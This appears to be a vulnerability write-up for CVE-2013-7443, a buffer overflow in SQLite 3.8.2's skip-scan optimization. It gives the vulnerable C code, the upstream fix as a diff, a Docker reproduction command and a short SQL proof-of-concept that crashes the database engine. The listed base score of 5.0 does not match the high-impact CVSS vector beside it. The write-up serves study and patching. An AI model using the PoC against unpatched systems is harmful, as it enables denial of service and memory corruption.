


# CVE-2013-7443 CWE-119 SQLite buffer overflow

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.

## Vulnerability Mechanism
In SQLite version 3.8.2, during skip-scan optimization, insufficient memory space was not properly allocated to accommodate the required elements, resulting in insufficient size of the `WhereLoop.aLTerm[]` array, ultimately causing buffer overflow, which could cause crashes or other potential security risks.

## Vulnerability Location
In the src/where.c file, line 3862 of the whereLoopAddBtreeIndex function. The if statement at line 3930 mainly performs skip-scan optimization and ensures that relevant parameters in the query optimizer are correctly adjusted when skipping scans.

However, here `pNew->nLTerm++` is directly used as the index to access the `aLTerm[]` array, without any checks to ensure the array size is large enough to store the new elements. If the capacity of the `pNew->aLTerm` array has reached or exceeded `nLTerm`, continuing to write new elements to the array will cause buffer overflow.

```c
if( pTerm==0
   && saved_nEq==saved_nSkip
   && saved_nEq+1<pProbe->nKeyCol
   && pProbe->aiRowEst[saved_nEq+1]>=18  /* TUNING: Minimum for skip-scan */
  ){
    LogEst nIter;
    pNew->u.btree.nEq++;
    pNew->u.btree.nSkip++;
    pNew->aLTerm[pNew->nLTerm++] = 0;
    pNew->wsFlags |= WHERE_SKIPSCAN;
    nIter = sqlite3LogEst(pProbe->aiRowEst[0]/pProbe->aiRowEst[saved_nEq+1]);
    whereLoopAddBtreeIndex(pBuilder, pSrc, pProbe, nIter);
  }
```

## Remediation
When performing skip-scan, a call to the `whereLoopResize` function is added to adjust the size of `pNew` objects, ensuring that necessary elements are correctly added during skip scans. If the `whereLoopResize` function returns `SQLITE_OK`, the skip scan operation continues.

```diff
  ** number 18 was found by experimentation to be the payoff point where
  ** skip-scan become faster than a full-scan.
  */
  if( pTerm==0
   && saved_nEq==saved_nSkip
   && saved_nEq+1<pProbe->nKeyCol
   && pProbe->aiRowEst[saved_nEq+1]>=18  /* TUNING: Minimum for skip-scan */
+  && (rc = whereLoopResize(db, pNew, pNew->nLTerm+1))==SQLITE_OK
  ){
    LogEst nIter;
    pNew->u.btree.nEq++;
    pNew->u.btree.nSkip++;
    pNew->aLTerm[pNew->nLTerm++] = 0;
    pNew->wsFlags |= WHERE_SKIPSCAN;
    nIter = sqlite3LogEst(pProbe->aiRowEst[0]/pProbe->aiRowEst[saved_nEq+1]);
```

## Affected Versions
SQLite = 3.8.2

## Environment Setup
Start the Docker environment with SQLite version 3.8.2, which enables ASAN memory detection at compile time

```txt
NIST:NVD   Base Score:5.0 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.8.2:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Enter the container command line and run the PoC file. You will see the program crash and exit with an error indicating buffer overflow.

```bash
docker exec -it sqlite-3.8.2 sqlite3 test_db ".read CVE-2013-7443-PoC.sql"
```



## PoC Analysis

```sql
CREATE TABLE t4(a,b,c,d,e,f,g,h,i);
  CREATE INDEX t4all ON t4(a,b,c,d,e,f,g,h);
  INSERT INTO t4 VALUES(1,2,3,4,5,6,7,8,9);
  ANALYZE;
  DELETE FROM sqlite_stat1;
  INSERT INTO sqlite_stat1 
    VALUES('t4','t4all','655360 163840 40960 10240 2560 640 160 40 10');
  ANALYZE sqlite_master;
  SELECT i FROM t4 WHERE a=1;
  SELECT i FROM t4 WHERE b=2;
  SELECT i FROM t4 WHERE c=3;
  SELECT i FROM t4 WHERE d=4;
  SELECT i FROM t4 WHERE e=5;
  SELECT i FROM t4 WHERE f=6;
  SELECT i FROM t4 WHERE g=7;
  SELECT i FROM t4 WHERE h=8;
```

## References
[NVD - CVE-2013-7443](https://nvd.nist.gov/vuln/detail/CVE-2013-7443)

[SQLite: Check-in [ac5852d640\]](https://www.sqlite.org/src/info/ac5852d6403c9c9628ca0aa7be135c702f000698)
